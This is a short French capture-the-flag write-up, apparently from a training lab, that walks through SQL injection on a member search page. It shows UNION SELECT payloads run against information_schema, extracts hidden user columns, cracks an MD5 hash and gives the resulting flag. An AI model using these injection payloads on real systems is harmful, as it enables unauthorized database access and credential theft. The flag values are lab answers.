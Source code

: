 sur http://192.168.99.102/?page=member

On peu voir un field pour rechercher par Id.

Si on entre 1 OR 1 = 1:
First name: Flag
Surname : GetThe

On peux voir qu'un first name est "Flag"

Avec la requete suivante: 
```sql
1 AND MID(VERSION(),1,1) = 5;
```

On obtiens la version de mysql... pas utile 


Avec la requete suivante: 
```sql
1 UNION SELECT * FROM Users
```

on obtiens une erreur: Table 'Member_Sql_Injection.Users' doesn't exist
on en deduis le nom de la db: Member_Sql_Injection


```sql
1 UNION SELECT * FROM Users
1 AND 1=2 UNION ALL SELECT * FROM information_schema.columns
```

Nous avons une erreur:
The used SELECT statements have a different number of columns

parce que "select * from ..." est la sélection de toutes les colonnes du tableau des users.
c'est pourquoi lorsque nous avons essayé d'unir plus de 2 colonnes avec elle, nous avons cette erreur.

En essayant de select que deux colonnes avec cette commande:
```sql
1 AND 1=2 UNION ALL SELECT table_name, column_name FROM information_schema.columns
```

Nous affiche toutes les tables et colonnes
On peux voir la table qui nous interesse ici c'est: Users
qui contient les colonnes suivantes:
user_id
first_name
last_name
town
country
planet
Commentaire
countersign

testons alors les deux dernieres qui ont l'air suspectes.... :

```sql
1 AND 1 = 2 UNION ALL SELECT countersign, Commentaire FROM users
```
bingo !


First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !


5ff9d0165b4f92b14994e5c685cdce28: FortyTwo
=> lower + sh256 = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


Amelioration:

Gerer les sqli, protegers les strings envoyer en request.


